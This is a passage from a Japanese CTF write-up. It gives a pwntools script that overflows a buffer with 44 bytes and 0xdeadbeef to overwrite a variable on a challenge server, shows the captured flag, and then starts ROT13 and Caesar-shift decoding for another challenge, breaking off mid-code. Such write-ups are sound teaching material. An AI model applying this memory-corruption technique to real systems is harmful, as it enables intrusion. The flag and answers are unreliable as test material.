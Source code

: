     from pwn import *

    string = 'deadbeef'
    sendmsg = 'a' * 44 + '\xef\xbe\xad\xde' + '\n'

    host = 'pwn1.chall.beginners.seccon.jp'
    port = 16268
    c = remote(host, port)

    c.recvuntil('Please tell me your name...')
    c.send(sendmsg)
    print(c.recv())
    print(c.recv())

これを実行すると，フラグをゲットできる．

    $ python solve.py
    [+] Opening connection to pwn1.chall.beginners.seccon.jp on port 16268: Done
    OK! You have permission to get flag!!

    ctf4b{T4mp3r_4n07h3r_v4r14bl3_w17h_m3m0ry_c0rrup710n}

    [*] Closed connection to pwn1.chall.beginners.seccon.jp port 16268

## [Warmup] Veni, vidi, vici
ダウンロードしたzipファイルを解凍すると，part1からpart3までのファイルが入っている．
中身を見てみると，part1とpart2はそれぞれ何らかの暗号で暗号化されている．

part1は，ROT13で暗号化されているようなので，Pythonで復号する．

    # -*- coding: utf-8 -*-

    import codecs

    with open('veni_vidi_vici/part1', 'r') as f:
        text = f.read().strip()

    print(codecs.decode(text, 'rot13'))

part2は，それぞれの文字が8個ずつずれているので，これもPythonで復号．

    # -*- coding: utf-8 -*-

    import string


    with open('veni_vidi_vici/part2', 'r') as f:
        text = f.read().strip()

    for c in text:
        if c in string.ascii_lowercase:
            plain = chr((ord(c) - ord('a') + 8) % 26 + ord('a'))
        elif c in string.ascii_uppercase:
            plain = chr((ord(c) - ord('A') + 8) % 26 + ord('A'))
        else:
            plain = c
